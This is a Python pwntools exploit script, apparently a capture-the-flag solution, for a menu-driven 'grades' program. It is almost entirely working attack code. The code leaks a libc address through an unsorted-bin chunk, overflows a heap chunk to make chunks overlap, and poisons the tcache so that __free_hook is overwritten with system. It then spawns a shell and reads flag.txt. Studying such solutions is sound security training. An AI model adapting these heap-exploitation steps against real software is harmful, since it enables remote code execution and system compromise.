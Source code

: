 ```python

def add(weight, grades):
  global CATEGORY
  r.sendlineafter(">", "1")
  r.sendlineafter("(1-100)", str(weight))
  r.sendlineafter("category?", str(grades))
  CATEGORY += 1
  return CATEGORY

def write(idx, size, grades=b""):
  r.sendlineafter(">", "2")
  r.sendlineafter("(1-16)", str(idx))
  r.recvuntil("(n to keep")
  if size:
    r.sendline(str(size))
  else:
    r.sendline("n")
  for grade in grades:
    r.sendline(str(grade))

def view():
  r.sendlineafter(">", "3")

# set up chunks
overflow = add(1, 24)   # 24 means 0 padding
evil = add(1, 20)       # change the size of this...
victim = add(1, 20)     # ...to overwrite this

# get leek
unsorted = add(1, 2048)         # add chunk of unsorted size
add(1, 20)                      # prevent consolidation
write(unsorted, 1, b"\x41"*2)   # free the unsorted chunk
unsorted = add(1, 8)            # get chunk from unsorted
view()                          # deets!

r.recvuntil(f"Category #{unsorted}:")
r.recvuntil("Grades: ")

convert = lambda x: int(x).to_bytes(byteorder="little", length=1, signed=True)
leak = b''.join(map(convert, r.recvline().split(b", ")))
libc.address = u64(leak) - 0x3ebca0
log.info(f"{libc.address:x}")

# overflow first chunk to get overlapping chunks
write(overflow, 0, b"\x41"*24+b"\x91")  # overflow first chunk to set evil's size to 0x90
write(victim, 0x38, b"\x41"*0x39)       # free the victim and put new chunk somewhere else

# tcache poison
payload = b"\x41"*24 + b"\x21" + b"\x00"*7 + p64(libc.sym["__free_hook"]-8)
payload += b"\x00"*(0x89-len(payload))
write(evil, 0x88, payload)
# get victim back
add(1, 20)
# get free_hook
free_hook = add(1, 15)
write(free_hook, 0, b"/bin/sh\x00"+p64(libc.sym["system"]))
write(free_hook, 1)

# deets!
r.clean()
r.sendline("cat flag.txt")
print(r.recvline())
#r.interactive()
```